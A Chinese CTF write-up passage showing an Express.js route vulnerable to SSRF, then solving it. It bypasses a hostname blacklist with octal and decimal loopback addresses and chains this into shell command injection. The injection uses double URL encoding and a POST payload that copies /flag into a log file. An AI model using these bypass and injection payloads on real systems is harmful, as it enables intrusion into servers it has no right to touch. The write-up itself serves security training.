 ```js
router.post('/debug', function(req, res, next) {
    console.log(req.body);
    if(req.body.url !== undefined) {
        var u = req.body.url;	// POST url参数
	var urlObject=url.parse(u);	// 对url进行parse
	if(blacklist.indexOf(urlObject.hostname) == -1){	// hostname不在黑名单中
		var dest=urlObject.href;
		request(dest,(err,result,body)=>{	// 访问 目标
			res.json(body);
		})
	}
	else{
		res.json([]);
	}
	}
});

module.exports = router;

```

需要构造一个ssrf的url，post方式传入并且绕过ssrf的黑名单，比如

```
http://0177.0.0.01/		# 八进制
http://2130706433/		# 十进制
```

后面接上`/debug?url=xxxx`，post传入后调用`request`会到`get /debug`进行处理，就可以`child_process_exec`执行命令了

执行命令的话，因为后面它会读出`/tmp/log`的文件，所以我们把flag写入这个文件中，用`cp /flag /tmp/log`

构造payload时原代码是这样的

```js
let log=`echo  '${url.parse(u).href}'>>/tmp/log`;
```

所以先要闭合echo后面的单引号，再考虑`url.parse(u).href`的结果，最后用`#`把后面多余的注释掉；然而有个正则匹配要先过滤一下单引号

```js
var u=req.query.url.replace(/[\"\']/ig,'');
```

所以用二次url编码：`' -> %27 -> %2527`加`@`，让`url.parse().href`时让`@`前的部分被decodeURIComponent

payload要再编一次码

```
POST:
url=http://2130706433/debug?url=http://%252527@1;cp$IFS$9/flag$IFS$9/tmp/log;%25%23
```

flag{876797a7-fe5f-4a11-aa1f-bd0fbcb1640e}

{{% /spoiler %}}

{{% spoiler "[红明谷CTF 2021]JavaWeb" %}}
